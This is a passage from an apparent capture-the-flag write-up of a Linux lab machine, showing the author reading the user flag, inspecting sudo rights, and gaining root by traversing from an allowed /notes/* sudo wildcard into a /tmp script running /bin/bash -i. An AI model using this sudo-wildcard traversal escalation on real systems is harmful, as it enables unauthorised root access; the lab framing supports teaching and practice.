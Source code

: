 ```bash
webadmin@serv:~$
webadmin@serv:~$ ls -al
total 32
drwxr-xr-x 3 webadmin webadmin 4096 Aug  2  2020 .
drwxr-xr-x 4 root     root     4096 Aug  2  2020 ..
-rw------- 1 webadmin webadmin  357 Aug  2  2020 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug  2  2020 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug  2  2020 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug  2  2020 .cache
-rw-r--r-- 1 webadmin webadmin  807 Aug  2  2020 .profile
-rw------- 1 webadmin root       69 Aug  2  2020 user.txt
webadmin@serv:~$ cat user.txt
TGUgY29udHLDtGxlIGVzdCDDoCBwZXUgcHLDqHMgYXVzc2kgcsOpZWwgcXXigJl1bmUg
webadmin@serv:~$
```
{: .nolineno}
{: .nolineno}

Now lets see what can webadmin user can do →

```bash
webadmin@serv:/$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```
{: .nolineno}
{: .nolineno}

Lets try to access `id.sh` file which is inside the notes directory →

```bash
webadmin@serv:/$ sudo /bin/nice /notes/id.sh
uid=0(root) gid=0(root) groups=0(root)
```
{: .nolineno}
{: .nolineno}

Now I have not access to modify this file so lets create a file in /tmp folder named as `shell.sh`  which contains normal bash calling command → ***`/bin/bash -i`***  

```bash
webadmin@serv:/tmp$ nano shell.sh
webadmin@serv:/tmp$ chmod +x shell.sh 
webadmin@serv:/tmp$ cd ../
webadmin@serv:/$ sudo /bin/nice /notes/../tmp/shell.sh
root@serv:/# whoami
root
root@serv:/# id
uid=0(root) gid=0(root) groups=0(root)
root@serv:/# pwd
/
root@serv:/#
root@serv:/# cd ~
root@serv:~# ls -al
total 36
drwx------  5 root root 4096 Aug  2  2020 .
drwxr-xr-x 21 root root 4096 Aug  2  2020 ..
-rw-------  1 root root   73 Aug  2  2020 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Aug  2  2020 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root   89 Aug  2  2020 root.txt
drwxr-xr-x  3 root root 4096 Aug  2  2020 snap
```
